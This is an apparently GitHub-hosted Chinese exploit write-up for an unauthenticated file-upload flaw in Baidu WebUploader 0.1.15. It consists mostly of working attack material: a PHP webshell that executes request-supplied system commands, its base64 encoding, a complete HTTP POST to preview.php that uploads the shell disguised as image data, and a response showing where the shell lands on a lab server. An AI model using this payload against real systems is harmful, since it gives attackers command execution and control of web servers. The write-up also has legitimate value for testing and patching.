 # webuploader-v-0.1.15 组件存在文件上传漏洞(未授权)

#### 简介：百度WebUploader组件存在文件上传漏洞。该漏洞是由于WebUploader组件上传页面对文件类型或文件扩展名过滤不严所致，攻击者可利用漏洞直接上传或简单绕过限制上传脚本文件，执行系统命令，获取网站服务器权限。


#### php_webshell

```
<?php
    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }
    phpinfo();
?>
```

#### base64 encode

```
PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=
```

## 0x01 POST upload php webshell

`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`
![](./burpsuite.jpg)
#### BurpSuite Requests
```
POST /webuploader-0.1.15-Demo/server/preview.php HTTP/1.1
Host: 192.168.2.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 298
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

data:image/php;base64,PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=

```
#### BurpSuite Response
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2019 05:40:48 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a
X-Powered-By: PHP/5.5.9
Connection: close
Content-Type: text/html
Content-Length: 142

{"jsonrpc" : "2.0", "result" : "http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php", "id" : "id"}
```

#### webshell
`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php`

![](./phpinfo.jpg)

![](./cmd.jpg)
